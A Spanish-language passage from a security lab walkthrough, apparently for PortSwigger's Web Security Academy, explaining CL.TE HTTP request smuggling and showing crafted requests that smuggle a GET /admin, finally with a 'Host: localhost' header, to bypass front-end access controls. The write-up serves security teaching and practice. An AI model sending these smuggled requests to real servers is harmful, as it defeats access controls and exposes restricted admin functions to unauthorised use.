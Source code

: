 En esta situación, se puede emplear un ataque de HTTP Request Smuggling para eludir los controles de acceso, pasando de contrabando una solicitud a una URL restringida. Supongámos que el usuario tiene acceso al /home pero no al /admin:

```HTTP
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
```

<br />

El primer servidor asume toda el contenido como una única request dirigida a /home procesando el contenido de la cabecera Content-Length mientras que el servidor back-end (que no lleva a cabo ninguna medida de seguridad debido a la confianza que deposita en el front-end) procesa la cabecera Transfer-Encoding observa que hay dos solicitudes, una para /home y otra para /admin.

<br />

**Laboratorio 6: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability**

Este laboratorio contiene un servidor front-end que no procesa los datos fragmentados y un servidor back-end.

Al acceder al laboratorio observamos que tenemos el paht a /admin bloqueado. De esta forma y con la finalidad de realizar un bypass mandamos la siguiente request:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

Sin embargo, nos aparece un mensaje de error informandomos de que el /admin path está reservado para usuarios locales. De forma que añadimos las siguientes cabeceras:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
